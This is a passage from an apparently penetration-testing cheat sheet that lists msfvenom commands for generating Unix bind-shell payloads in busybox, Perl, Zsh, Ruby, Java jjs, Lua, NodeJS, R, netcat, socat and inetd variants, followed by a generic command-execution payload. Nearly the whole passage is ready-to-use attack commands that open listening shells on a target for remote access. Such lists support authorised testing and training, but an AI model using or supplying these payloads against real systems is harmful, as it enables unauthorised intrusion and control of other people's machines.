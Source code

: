 - **Busybox**

`$ msfvenom -p cmd/unix/bind_busybox_telnetd lport=<PORT>`

- **Perl**

`$ msfvenom -p cmd/unix/bind_perl lport=<PORT>`

`$ msfvenom -p cmd/unix/bind_perl_ipv6 lport=<PORT>`

- **Zsh**

`$ msfvenom -p cmd/unix/bind_zsh lport=<PORT>`

- **Ruby**

`$ msfvenom -p cmd/unix/bind_ruby lport=<PORT>`

`$ msfvenom -p cmd/unix/bind_ruby_ipv6 lport=<PORT>`

- **Java**

`$ msfvenom -p cmd/unix/bind_jjs lport=<PORT>`

- **Lua**

`$ msfvenom -p cmd/unix/bind_lua lport=<PORT>`

- **NodeJS**

`$ msfvenom -p cmd/unix/bind_nodejs lport=<PORT>`

- **R**

`$ msfvenom -p cmd/unix/bind_r lport=<PORT>`

- **Netcat**

1. OpenBSD Method

`$ msfvenom -p cmd/unix/bind_netcat lport=<PORT>`

2. Traditional GNU Method

`$ msfvenom -p cmd/unix/bind_netcat_gaping lport=<PORT>`

`$ msfvenom -p cmd/unix/bind_netcat_gaping_ipv6 lport=<PORT>`

`$ msfvenom -p cmd/unix/pingback_bind lport=<PORT>`

- **Socat**

`$ msfvenom -p cmd/unix/bind_socat_udp lport=<PORT>`

- **Telnet**

`$ msfvenom -p cmd/unix/bind_inetd lport=<PORT>`

#### 2.4.3 - Exec Payloads

##### 2.4.3.1 - Generic

- **Unix**

`$ msfvenom -p cmd/unix/generic cmd=<unix_commands>`
